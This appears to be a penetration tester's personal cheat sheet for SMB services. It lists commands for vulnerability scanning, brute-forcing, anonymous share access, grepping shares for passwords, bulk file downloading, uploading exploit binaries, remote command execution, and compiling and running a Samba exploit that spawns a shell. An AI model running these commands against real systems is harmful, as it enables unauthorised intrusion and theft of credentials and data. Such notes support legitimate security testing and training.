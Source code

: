 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Quick Wins (require creds)

[[zz._Gaining Shell Access (psexec.py)]]
[[zz._Gaining Shell Access (smbexec.py)]]
[[zz._Gaining Shell Access (wmiexec.py)]]

#### nmap vuln check:
```bash - kali
nmap --script smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse,smb-vuln-webexec.nse -p445 $TARGET -Pn
```

#### SMB Mounting
```bash - kali
sudo apt install cifs-utils
```

```bash - kali
mkdir ./$SHARE
```

```bash - kali
sudo mount -t nfs $TARGET:/$SHARE/
```

```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o user=,password=
```
OR
```bash - kali
sudo mount -t cifs //$TARGET/$SHARE ./$SHARE -o username=$USER,password=$PASSWORD,domain=$DOMAIN
```

```bash - kali
grep -R password ./$SHARE
```

[[TechLexicon/Penetration Testing/Reference/P3nT3sT/Grep]] for lootz.

```bash - kali
sudo umount ./mount
```

#### SMB Enumeration

==CHECK TO SEE IF YOU CAN UPLOAD FILES!==

Enum4linux-ng:
```bash - kali
cd /opt/ && sudo git clone https://github.com/cddmp/enum4linux-ng && cd -
```

```bash - kali
/opt/enum4linux-ng/enum4linux-ng.py $TARGET -A -C
```

nmap scans:
```bash - kali
nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse -p445 $TARGET
```

```bash - kali
nmap --script smb-brute.nse -p445 $TARGET
```

smbmap:
```bash - kali
smbmap -H $TARGET -P 445
```

```bash - kali
smbmap -u null -p "" -H $TARGET -P 445
```

[[Port 139 445 - SMB ~#smbmap.py]]

List share and gain access with smbclient:
```bash - kali
smbclient -L \\\\$TARGET\\ -N -p 445
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

smbclient anonymous login:
```bash - kali
smbclient -L $TARGET -U " "%" "
```

```bash - kali
smbclient \\\\$TARGET\\scripts$ -U " "%" "
```

[[Port 139 445 - SMB ~#smbclient]]
#### smbmap.py
```bash - kali
smbmap -H $TARGET
```

```bash - kali
smbmap -H $TARGET -r 'home'
```

```bash - kali
smbmap -H $TARGET -r 'home\$USER'
```

### smbmap Downloading files:
```bash - kali
smbmap -H $TARGET --download 'home\$USER\file.txt'
```

#### smbmap Uploading files:
```bash - kali
smbmap -H $TARGET --upload exploit.exe 'home\$USER\'
```

```bash - kali
smbmap -H $TARGET -P 445 --upload exploit.so 'Share/exploit.so' 
```

```bash - kali
smbmap -u $USER -p $PASSWORD -d $DOMAIN_NAME -x 'net group "Domain Admins" /domain' -H $TARGET
```

#### smbclient

```bash - kali
smbclient -L \\\\$TARGET -N -p 445
```

Using smbclient without creds:
```bash - kali
smbclient \\\\$TARGET\\share -p 445
```

Using smbclient to list shares (authenticated):
```bash - kali
smbclient -L \\\\$TARGET -U "$USER" -p $PASSWORD
```

Using smbclient with creds:
```bash - kali
smbclient \\\\$TARGET\\spray -U "$USER" -p $PASSWORD
```

#### using smbclient to download all files:

```bash - kali
mkdir SMBLoot && cd SMBLoot
```

Unauthenticated:
```bash - kali
smbclient '\\\\$TARGET\\$SHARE'
```

```bash - kali
smbclient -N //$TARGET/$SHARE
```

Authenticated:
```bash - kali
smbclient --user $USER //$TARGET/$SHARE $PASSWORD
```

```bash - kali
mask ""  
```

```bash - kali
recurse ON  
```

```bash - kali
prompt OFF  
```

```bash - kali
mget *
```

```bash - kali
exit
```

```bash - kali
cd ..
```

```bash - kali
find SMBLoot/ -type f
```


==2nd example==
```bash - kali
smbclient //$TARGET/$SHARE
```

```bash - kali
RECURSE ON
```

```bash - kali
PROMPT OFF
```

```bash - kali
mget *
```

#### Low Level Samba Exploit
```bash - kali
searchsploit -m 10
```

```bash - kali
gcc -o exploit-samba 10.c
```

```bash - kali
./exploit-samba -b 0 $TARGET
```

```bash - kali
python -c 'import pty;pty.spawn("/bin/bash")'
```

#### Windows share local folder with everyone

```command prompt - target
net share cshare C:\$SHARE /GRANT:Everyone,FULL
```
  
#### Unsafe nmap script
```bash kali
sudo nmap --script=smb-enum* --script-args=unsafe=1 $TARGET
```

#### Responder - File upload attack
https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

